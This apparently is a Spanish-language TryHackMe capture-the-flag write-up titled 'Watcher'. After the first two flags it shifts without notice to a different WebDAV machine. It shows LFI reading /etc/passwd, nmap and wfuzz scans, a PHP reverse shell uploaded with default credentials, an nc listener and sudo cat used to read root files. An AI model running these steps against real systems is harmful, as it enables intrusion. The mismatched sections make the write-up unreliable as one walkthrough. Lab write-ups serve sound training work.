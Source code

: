 ```yaml
---
layout: single
title: Watcherv 1.4
excerpt: "Work your way through the machine and try to find all the flags you can!"
date: 2022-05-27
classes: wide
header:
  teaser: /assets/images/thm-writeup-watcher/watcher_logo.png
  teaser_home_page: true
  icon: /assets/images/thm_ico.png
categories:
  - TryHackMe
  - infosec
tags:
  - Security
  - Linux
  - nmap
  - couchdb
  - Web
  - Privilege escalation
---
```


![logo](/assets/images/thm-writeup-watcher/watcher_logo.png)

[Link](https://tryhackme.com/room/watcher "Watcher")

A boot2root Linux machine utilising web exploits along with some common privilege escalation techniques, Work your way through the machine and try to find all the flags you can!

Made by @rushisec

---

- Flag 1 -> hint: (<https://moz.com/learn/seo/robotstxt>)

Revisando el directorio **robots.txt** encontramos una ruta, que al abrir, encontramos la la bandera correspondiente a este punto:

![flag1](/assets/images/thm-writeup-watcher/watcher_flag1.png)

- Flag 2 ->
Con la segunda ruta obtenida en el directorio **robots.txt** y con la pista, que nos indica que la página es vulnerable a **lfi**, procedemos con los siguientes pasos:

1. Verificamos la vulnerabilidad con **burpsuite** listando la ruta **/etc/passwd** como se oberva a continuación:
![flag2](/assets/images/thm-writeup-watcher/watcher_flag2_1.png)
2. Con está información, listamos la ruta No. 2 de **robots.txt**, obteniendo un usuario y contraseña **ftp**, como se observa a continuación:
![flag2](/assets/images/thm-writeup-watcher/watcher_flag2_2.png)
3. Con el usuario y contraseñas encontrados ingresamos vía **ftp**, listamos los archivos y descargamos la **flag_2.txt** como mostramos a continuación:
![flag2](/assets/images/thm-writeup-watcher/watcher_flag2_3.png)






----

## 1. Fase de reconocimiento

- Para  conocer a que nos estamos enfrentando lanzamos el siguiente comando:

~~~css
ping -c 1 {ip}
~~~

![ping](/assets/images/thm-writeup-vulnet/vulnet_whatweb.png)

- De acuerdo con el ttl=63 sabemos que nos estamos enfrentando a una máquina con sistema operativo Linux.

---

## 2. Enumeración / Escaneo

- Escaneo de la totalidad de los ***65535*** puertos de red con el siguiente comando:
  
~~~css
└─# nmap -p- -sS --min-rate 5000 --open -vvv -n -Pn {ip}
~~~

![ping](/assets/images/thm-writeup-vulnet/vulnet_nmap1.png)

---

- Escaeno de vulnerabilidades sobre los puertos: 22,111,139,445,873,2049,6379,34583,37021,37295,52355:

~~~css
nmap -sCV -T4 -p22,111,139,445,873,2049,6379,34583,37021,37295,52355 vuln.local --script vuln

└─#  nmap -v -A -sC -sV -Pn {ip} -p- --script vuln
~~~

---

- Revisión de la URL ***<http://10.10.25.173:8080/>***:

![url](/assets/images/thm-writeup-dav/dav_url.png)

---

## 3. WFUZ

- Escaeno de subdominios con wfuzz:

~~~css
└─# wfuzz --hc=404 -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt {ip}/FUZZ/
Total requests: 220560

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                         
=====================================================================
000037122:   401        14 L     54 W       460 Ch      "webdav"  
~~~

- Wfuzz encontró la misma ruta que el escaneo de vulnerabilidades con nmap ***webdav***.

---

## 4. Exploit

- Buscando contraseñas por defecto me encontré con la siguiente página que entrega una información importante ***<http://xforeveryman.blogspot.com/2012/01/helper-webdav-xampp-173-default.html>***

![url](/assets/images/thm-writeup-dav/dav_web3.png)

---

- Cadaver: utilizamos esta aplicación para ingresar al target, con el usuario y contraseña encontrados en el punto anterior, como se observa a continuación:

~~~css
cadaver http://10.10.39.111/webdav/ 
Autenticación requerida para webdav en el servidor '10.10.39.111':
Nombre de usuario: wampp
Contraseña: 
dav:/webdav/> ls
Listando colección `/webdav/': exitoso.
        passwd.dav                            44  ago 25  2019

~~~

- Cargamos un archivo de prueba:
  
~~~css
dav:/webdav/> put test.txt
Transferiendo test.txt a '/webdav/test.txt':
 Progreso: [                              ]   0,0% of 6 bytes Progreso: [=============================>] 100,0% of 6 bytes exitoso.

~~~

- Comprobamos que el archivo que previamente creamos en la misma carpeta donde ejecutamos ***cadaver***

![url](/assets/images/thm-writeup-dav/dav_exploit_1.png)

- Descargamos  y configuramos una rshell desde la siguiente url: ***<https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php>*** en la misma carpeta donde ejecutamos ***cadaver***

![url](/assets/images/thm-writeup-dav/dav_rshell.png)

- Cargamos la rshell siguiendo el mismo procedimiento:

~~~css
dav:/webdav/> put rshell.php
Transferiendo rshell.php a '/webdav/rshell.php':
 Progreso: [                              ]   0,0% of 5491 bytes Progreso: [=============================>] 100,0% of 5491 bytes exitoso.
~~~

- Nos ponemos en escucha por el puerto ***4444***, de acuerdo con la configuración de la rshell:

~~~css
─# nc -nlvp 4444                                   
listening on [any] 4444 ...
~~~

- Ejecutamos la ***rshell.php***, entrando a la url target y abriendo este archivo:

![rshell](/assets/images/thm-writeup-dav/dav_rshell1.png)

dav_rshell1.png

- Obtenemos nuestra reverse shell como usuario ***www-data***:

~~~css
─# nc -nlvp 4444                                   
listening on [any] 4444 ...
connect to [10.9.0.43] from (UNKNOWN) [10.10.39.111] 34204
Linux ubuntu 4.4.0-159-generic #187-Ubuntu SMP Thu Aug 1 16:28:06 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
 19:43:11 up 21 min,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
~~~

- Tratamiento de la shell, con el siguiente comando:

~~~python
python3 -c 'import pty; pty.spawn("/bin/bash")'
~~~

---

## 5. Bandera de usuario

- Nos dirigimos a la carpeta ***home*** en esta accedmos al usuario ***merlin*** y en está última encontramos el archivo ***user.txt***:

![usr](/assets/images/thm-writeup-dav/dav_usr.png)

---

## 6. Bandera root

- Búsqueda de vulnerabilidades con el comando ***sudo -l***, en el cual observamos el binario ***cat*** :

~~~css
www-data@ubuntu:/usr/lib/openssh$ sudo -l
sudo -l
Matching Defaults entries for www-data on ubuntu:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on ubuntu:
    (ALL) NOPASSWD: /bin/cat

~~~

- Abusando del binario ***cat*** podemos leer la bandera root sin entregar las credenciales respectivas, ubicandonos en el archivo raíz y ejecutando el siguiente comando:

![root](/assets/images/thm-writeup-dav/dav_cat.png)

~~~css
www-data@ubuntu:/bin$ cd ..
cd ..
www-data@ubuntu:/$ ls
ls
bin   etc   initrd.img.old  lost+found  opt   run   sys  var
boot  home   lib    media       proc  sbin  tmp  vmlinuz
dev   initrd.img  lib64    mnt       root  srv   usr  vmlinuz.old
www-data@ubuntu:/$ sudo cat /root/root.txt
sudo cat /root/root.txt
??????
~~~

![root](/assets/images/thm-writeup-dav/dav_root.png)

---

## 7. Fuentes

- Exploit
<http://xforeveryman.blogspot.com/2012/01/helper-webdav-xampp-173-default.html>

- Cat
<https://gtfobins.github.io/gtfobins/cat/>
